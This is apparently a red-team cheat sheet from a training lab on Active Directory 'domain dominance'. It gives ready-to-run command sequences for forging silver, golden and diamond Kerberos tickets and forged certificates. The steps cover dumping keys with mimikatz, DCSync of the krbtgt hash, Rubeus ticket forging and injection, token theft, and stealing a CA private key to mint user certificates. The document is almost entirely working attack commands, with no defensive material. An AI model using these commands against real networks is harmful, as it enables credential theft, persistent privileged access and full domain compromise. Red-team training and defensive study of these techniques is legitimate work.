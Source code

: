 # Domain Dominance

| Technique              | Protocol         |
|------------------------|------------------|
| PsExec                 | CIFS             |
| WinRM                 | HOST & HTTP      |
| DCSync (DCs only)     | LDAP             |

## 1) Silver Ticket (Offline)

1. Fetch the kerberos ekeys using mimikatz

        beacon> mimikatz !sekurlsa:ekeys

2. Generate the silver Ticket TGS offline using Rubeus (use /rc4 flag for NTLM hash)

        PS C:\Users\Attacker> C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe silver /service:cifs/wkstn-1.dev.cyberbotic.io /aes256:<aes256> /user:nlamb /domain:dev.cyberbotic.io /sid:S-1-5-21-569305411-121244042-2357301523 /nowrap

3. Inject the ticket and Verify the access 

        beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe createnetonly /program:C:\Windows\System32\cmd.exe /domain:DEV /username:nlamb /password:FakePass /ticket:doIFXD[...]MuaW8=
        beacon> steal_token 5668
        beacon> ls \\wkstn-1.dev.cyberbotic.io\c$

## 2) Golden Ticket (Offline)

1. Fetch the NTLM/AES hash of krbtgt account

        beacon> dcsync dev.cyberbotic.io DEV\krbtgt

2. Generate Golden ticket offline using Rubeus

        PS C:\Users\Attacker> C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe golden /aes256:<aes256> /user:nlamb /domain:dev.cyberbotic.io /sid:S-1-5-21-569305411-121244042-2357301523 /nowrap

3. Inject golden ticket and gain access
        
        beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe createnetonly /program:C:\Windows\System32\cmd.exe /domain:DEV /username:nlamb /password:FakePass /ticket:doIFLz[...snip...]MuaW8=

        beacon> steal_token 5060
        beacon> run klist
        beacon> ls \\dc-2.dev.cyberbotic.io\c$

## 3) Diamond Ticket (Online)

1. Fetch the SID of Ticket User

        beacon> powerpick ConvertTo-SID dev/nlamb

2. Create Diamond ticket (512 - Enterprise Group ID, krbkey - Hash of KRBRGT account)

        beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe diamond /tgtdeleg /ticketuser:nlamb /ticketuserid:1106 /groups:512 /krbkey:<krbtgt-aes256> /nowrap

3. Verify the specs of Diamond ticket vs Golden ticket

        PS C:\Users\Attacker> C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe describe /ticket:doIFYj[...snip...]MuSU8=

## 4) Forged Certificates (DC or CA Server)

1. Dump the Private Key and Certificate of CA (to be executed on DC/CA)

        beacon> execute-assembly C:\Tools\SharpDPAPI\SharpDPAPI\bin\Release\SharpDPAPI.exe certificates /machine

2. Save the certificate in .pem file and convert into pfx format using openssl

        ubuntu@DESKTOP-3BSK7NO ~> openssl pkcs12 -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx

3. Next, use the stolen CA cert to generate fake cert for nlamb user

        PS C:\Users\Attacker> C:\Tools\ForgeCert\ForgeCert\bin\Release\ForgeCert.exe --CaCertPath .\Desktop\sub-ca.pfx --CaCertPassword pass123 --Subject "CN=User" --SubjectAltName "nlamb@cyberbotic.io" --NewCertPath .\Desktop\fake.pfx --NewCertPassword pass123

4. Encode the certificate

        ubuntu@DESKTOP-3BSK7NO ~> cat cert.pfx | base64 -w 0

5. Use the certificate to get TGT for nlamb user

        beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe asktgt /user:nlamb /domain:dev.cyberbotic.io /enctype:aes256 /certificate:MIACAQ[...snip...]IEAAAA /password:pass123 /nowrap

6. Inject the ticket and access the service

        beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe createnetonly /program:C:\Windows\System32\cmd.exe /domain:DEV /username:nlamb /password:FakePass /ticket:doIFLz[...snip...]MuaW8=

        beacon> steal_token 5060    
        beacon> run klist
        beacon> ls \\dc-2.dev.cyberbotic.io\c$
